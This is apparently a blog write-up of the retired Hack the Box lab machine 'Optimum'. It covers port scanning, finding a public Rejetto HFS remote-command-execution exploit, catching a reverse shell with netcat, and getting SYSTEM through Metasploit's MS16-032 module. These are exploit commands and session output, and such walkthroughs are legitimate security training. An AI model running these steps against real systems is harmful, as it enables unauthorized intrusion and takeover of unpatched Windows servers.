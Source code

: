 ```yaml
---
layout: post
title: Hack the Box - Optimum
date: 2020-05-04 23:23:22 +0100
description: Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.
img: optimum.png
fig-caption: Optimum
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ sudo nmap -p- -T4  10.129.57.165                                                                
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 23:50 GMT
Nmap scan report for 10.129.57.165
Host is up (0.017s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```
When I navigated to that port in a browser the landing page exposed the application and version number. Searching exploitdb for an exploit revealed a python script.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ searchsploit hfs 2.3            
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                        | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                     | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution           | windows/webapps/34852.txt
----------------------------------------------------------------------------------- ---------------------------------

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /home/calxus/hackthebox/optimum/39161.py
```
## Foothold
The only changes that were necessary to make this exploit run are adding the IP and port that our netcat listener are running on. We also need to host a file server that netcat is hosted in.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ python 39161.py 10.129.57.165 80
```
Once the the exploit is run we should receive a shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ nc -nlvp 4499
listening on [any] 4499 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.57.165] 49166
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> whoami
 whoami
optimum\kostas
```
## Privilege Escalation
In order to get system on this machine I had to upload a metasploit binary and send back a meterpreter shell. When I did this I then ran the local_exploit_suggester and found it could be vulnerable to MS16-032. When I ran this exploit I got a system shell.
```
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.129.57.165 - Collecting local exploits for x86/windows...
[*] 10.129.57.165 - 37 exploit checks are being tried...
[+] 10.129.57.165 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.57.165 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
...
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.129.57.165
[*] Meterpreter session 2 opened (10.10.14.27:4444 -> 10.129.57.165:49184) at 2021-03-15 00:42:00 +0000
[+] Deleted C:\Users\kostas\AppData\Local\Temp\LljWcYKZFA.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```